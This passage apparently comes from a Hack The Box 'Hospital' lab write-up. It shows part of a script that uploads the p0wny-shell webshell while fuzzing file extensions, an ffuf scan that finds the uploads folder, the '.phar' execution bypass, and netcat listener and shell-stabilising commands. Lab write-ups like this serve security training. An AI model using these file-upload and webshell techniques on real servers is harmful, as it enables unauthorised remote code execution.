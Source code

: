 ```bash
    parser.add_argument("-x", "--webshell", required=True, help="File containing webshell")
    parser.add_argument("-f", "--filename", required=False, default="file", help="filename to use, default 'file' without the extention")
    args = parser.parse_args()

    fuzz_upload(args.wordlist,args.webshell,args.filename)
```

The script is used to upload the [p0wny-shell](https://github.com/flozz/p0wny-shell) while finding valid extensions at the same time.

![uploading p0wny](/assets/img/htb/hospital/uploading_p0wny.png)

After successfully uploading the files, the fuzzing process began to find their storage location using ffuf. The point of interest was the 'uploads' folder, where files were found to be stored with identical names as those used during the upload process. Despite the absence of directory listing functionality in /uploads, the files within the 'uploads' directory retained their original filenames, facilitating their retrieval and exploitation.

```bash
ffuf -c -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt:FUZZ -u http://hospital.htb:8080/FUZZ -o hospital_htb_8080_FUZZ.out -t 15
```

![fuzzing uploads](/assets/img/htb/hospital/ffuf_uploads.png)

## Shell on Linux Server 

The webshell is discovered at http://hospital.htb:8080/uploads/myfile.phar, where the '.phar' extension was identified as the one capable of executing php code among various other extensions attempted.

![p0wny shell on linux server](/assets/img/htb/hospital/p0wny_shell_1.png)

Gaining access to the Linux server that hosts http://hospital.htb:8080.

For a stable shell do:

- nc -lnvp 443

- script /dev/null -c bash

- (ctrl+z)

- stty raw -echo ; fg

- reset xterm (then press enter)

- export TERM=xterm

- export SHELL=bash

Upon reviewing the 'ifconfig' output, it is determined that the attacker is located within a separate network, as indicated by the 'eth0 inet' IP address.

![ifconfig output](/assets/img/htb/hospital/ifconfig_ouptut_1.png)
